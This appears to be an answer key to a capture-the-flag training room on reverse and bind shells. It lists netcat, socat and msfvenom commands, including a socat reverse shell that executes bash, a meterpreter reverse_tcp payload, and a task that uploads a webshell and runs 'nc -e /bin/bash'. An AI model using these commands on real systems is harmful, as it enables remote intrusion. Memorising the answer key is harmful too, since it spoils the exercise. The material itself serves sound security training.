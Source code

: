 # What the Shell?

- Read and understand the introduction.

	  no answer needed

- Read the above and check out the links!

	  no answer needed

- Which type of shell connects back to a listening port on your computer, Reverse (R) or Bind (B)?

	- `R`

- You have injected malicious shell code into a website. Is the shell you receive likely to be interactive? (Y or N)

	- `N`

- When using a bind shell, would you execute a listener on the Attacker (A) or the Target (T)?

	- `T`

- Which option tells netcat to listen?

	- `-l`

- How would you connect to a bind shell on the IP address: 10.10.10.11 with port 8080?

	- `nc 10.10.10.11 8080`

- How would you change your terminal size to have 238 columns?

	- `stty cols 238`

- What is the syntax for setting up a Python3 webserver on port 80?

	- `sudo python3 -m http.server -p 80`

- How would we get socat to listen on TCP port 8080?

	- `TCP-L:8080`

- What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

	- `socat OPENSSL-LISTENER:53,cert=encrypt.pem,verify=0 FILE:'tty',raw,echo=0`

- If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

	- `socat TCP:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

- What command can be used to create a named pipe in Linux?

	- `mkfifo`

- Look through the linked Payloads all the Things Reverse Shell Cheatsheet and familiarise yourself with the languages available.

	  no answer needed

- Generate a staged reverse shell for a 64 bit Windows target, in a .exe format using your TryHackMe tun0 IP address and a chosen port.

	  no answer needed

- Which symbol is used to show that a shell is stageless?

	- `_`

- What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell
	- `msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443`

- What command can be used to start a listener in the background?

	- `exploit -j`

- If we had just received our tenth reverse shell in the current Metasploit session, what would be the command used to foreground it?

	- `sessions 10`

- Read the WebShells information.

	  no answer needed

- Read the above information

	  no answer needed

- Try uploading a webshell to the Linux box, then use the command: nc <LOCAL-IP> <PORT> -e /bin/bash to send a reverse shell back to a waiting listener on your own machine.

	  no answer needed
- Navigate to /usr/share/webshells/php/php-reverse-shell.php in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.

	  no answer needed

- Log into the Linux machine over SSH using the credentials in task 14. Use the techniques in Task 8 to experiment with bind and reverse netcat shells.

	  no answer needed

- Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.

	  no answer needed

- Look through Payloads all the Things and try some of the other reverse shell techniques. Try to analyse them and see why they work.

	  no answer needed

- Switch to the Windows VM. Try uploading and activating the php-reverse-shell. Does this work?

	  no answer needed

- Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell.

	  no answer needed